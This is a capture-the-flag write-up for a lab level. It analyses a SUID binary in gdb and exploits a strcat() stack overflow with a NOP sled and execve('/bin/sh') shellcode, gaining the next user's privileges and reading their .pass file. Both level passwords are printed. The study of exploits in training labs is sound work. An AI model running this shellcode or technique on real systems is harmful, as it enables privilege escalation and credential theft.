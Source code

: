 Login as `bonus2`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.0.22 -p 4242 -l bonus2
bonus0@192.168.0.39's password: 579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
```
A `SUID` executable is located in the home directory.
```shell
bonus2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```

Binary expect two arguments or it exit with return code 1.
```gdb
(gdb) disass main
Dump of assembler code for function main:
   [...]
   0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804853c <+19>:	je     0x8048548 <main+31>
   0x0804853e <+21>:	mov    eax,0x1
   0x08048543 <+26>:	jmp    0x8048630 <main+263>
   [...]
End of assembler dump.
```
After allocation of 160 bytes on stack frame, at line `main+49` space to store copied arguments on stack is set to 0.
`rep stos` (from repeat store string) operation writes the value in `eax` (DWORD) starting by the address pointed to by `edi`, `ecx` 19 times (76 bytes in total)
```gdb
gdb-peda$
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xbffff5b0 --> 0x8048287 ("__libc_start_main")
ECX: 0x13
EDX: 0x13
ESI: 0x0
EDI: 0xbffff5b0 --> 0x8048287 ("__libc_start_main")
EBP: 0xbffff618 --> 0x0
ESP: 0xbffff560 --> 0x1
EIP: 0x804855a (<main+49>:	rep stos DWORD PTR es:[edi],eax)
EFLAGS: 0x200246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804854c <main+35>:	mov    eax,0x0
   0x8048551 <main+40>:	mov    edx,0x13
   0x8048556 <main+45>:	mov    edi,ebx
   0x8048558 <main+47>:	mov    ecx,edx
=> 0x804855a <main+49>:	rep stos DWORD PTR es:[edi],eax
```
The binary contains two user defined functions and four system functions. Among the `strcat()` is know for security-sensitivity.
Greeting message lays on `0xbffff5a0` and savec `EIP` on `0xbffff5ec`.
If global variable `language` is not set to **fi** or **nl**, it will not be possible to overwrite whole word `0xbffff56c`
```gdb
Breakpoint 1, 0x0804851c in greetuser ()
gdb-peda$ x/32wx 0xbffff520
0xbffff520:	0x6c6c6548	0x4141206f	0x41414141	0x41414141
0xbffff530:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff540:	0x41414141	0x41414141	0x41414141	0x42424141
0xbffff550:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff560:	0x42424242	0x42424242	0x42424242	0x08004242
```

Exploit and log on to the next level.
```sh
bonus2@RainFall:~$ LANG=fi /home/user/bonus2/bonus2 $(python -c "print('\x90'*17 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80')")  $(python -c "import struct; print('B'*18 + struct.pack('I', 0xbffff5b0))")
Hyvää päivää �����������������1�Ph//shh/bin��PS��
                                                  ̀BBBBBBBBBBBBBBBBBB����
$ id
uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
